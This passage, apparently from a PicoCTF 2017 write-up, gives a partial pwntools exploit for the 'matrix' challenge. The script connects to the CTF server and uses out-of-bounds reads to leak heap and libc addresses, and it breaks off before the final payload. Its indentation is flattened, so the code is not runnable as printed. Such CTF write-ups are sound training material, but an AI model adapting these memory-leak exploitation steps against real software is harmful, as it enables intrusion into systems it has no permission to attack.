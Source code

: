 (The actual flag is a hash that is different for every user.)

The final exploit is as follows:

```
    from pwn import *
    from os import *
    import struct

    # References:
    # https://stackoverflow.com/questions/23624212/how-to-convert-a-float-into-hex
    # https://stackoverflow.com/questions/6543847/setting-ld-library-path-from-inside-python

    def float_to_hex(f):
    return hex(struct.unpack('<I', struct.pack('<f', f))[0])

    def hex_to_float_string(h):
    return str(struct.unpack('<f',struct.pack('<I',h))[0])

    def get_hex_from_output(p):
    p.recvuntil('= ')
    float_as_string = float(p.recvline())
    return float_to_hex(float_as_string)

    # Fill up a matrix with values, only used during initial recon
    def populate_matrix(id, nrows, ncols):
    current_f = 0.0
    for i in range(nrows):
    for j in range(ncols):
      cmd = 'set ' + str(id) + ' ' + str(i) + ' ' + str(j) + ' ' + str(current_f) + '\n'
      print('cmd = ' + cmd)
      p.send(cmd)
      current_f += 1.0
      p.recvuntil('Enter command:')

    #p = process('/home/ctf/Documents/PicoCTF2017/Exploit3/matrix/matrix_copy',
    #            env={"LD_PRELOAD" : "/home/ctf/Documents/PicoCTF2017/Exploit3/matrix/libc.so.6"})
    p = process('nc shell2017.picoctf.com 19369', shell=True)


    p.recvuntil('Enter command:')

    p.send('create 7 5\n')
    p.recvuntil('Enter command:')

    p.send('create 5 2\n')
    p.recvuntil('Enter command:')

    # Leak heap address
    p.send('get 0 5 3\n')
    heap_addr = get_hex_from_output(p)
    HEAP_BASE = int(heap_addr,16) - 0x10c0
    p.recvuntil('Enter command:')

    # Leak libc address
    p.send('create 40 1\n')       # Matrix has to be larger than fastbin size
    p.recvuntil('Enter command:')

    p.send('create 10 1\n')
    p.recvuntil('Enter command:')

    p.send('destroy 2\n')         # Generates pointers to libc in heap
    p.recvuntil('Enter command:')

    p.send('get 1 3 1\n')
```